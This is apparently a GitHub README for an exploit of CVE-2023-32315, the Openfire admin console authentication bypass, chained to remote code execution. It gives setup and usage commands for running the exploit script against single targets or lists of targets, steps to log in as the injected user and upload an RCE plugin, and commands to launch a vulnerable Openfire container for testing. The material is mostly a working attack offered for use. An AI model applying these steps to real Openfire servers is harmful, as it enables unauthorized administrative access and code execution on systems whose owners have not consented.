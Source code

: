 # CVE-2023-32315
Openfire Console Authentication Bypass Vulnerability with RCE plugin

## Setup
```
git clone https://github.com/miko550/CVE-2023-32315.git
cd CVE-2023-32315
pip3 install -r requirements.txt
```
## Usage
```
python3 CVE-2023-32315.py -t http://127.0.0.1:9090
python3 CVE-2023-32315.py -l lists.txt
```
### Step
1. Run exploit
2. login with newly added user
3. goto tab plugin > upload plugin `openfire-management-tool-plugin.jar`
4. goto tab server > server settings > Management tool
## Vulnerable Openfire Docker
```
docker pull nasqueron/openfire:4.7.1
sudo docker run --name openfire -d --restart=always --publish 9090:9090 --publish 5222:5222 --publish 7777:7777 --volume /srv/docker/openfire:/var/lib/openfire nasqueron/openfire:4.7.1
```
## Reference
- https://github.com/tangxiaofeng7/CVE-2023-32315-Openfire-Bypass
- https://github.com/5rGJ5aCh5oCq5YW9/CVE-2023-32315exp
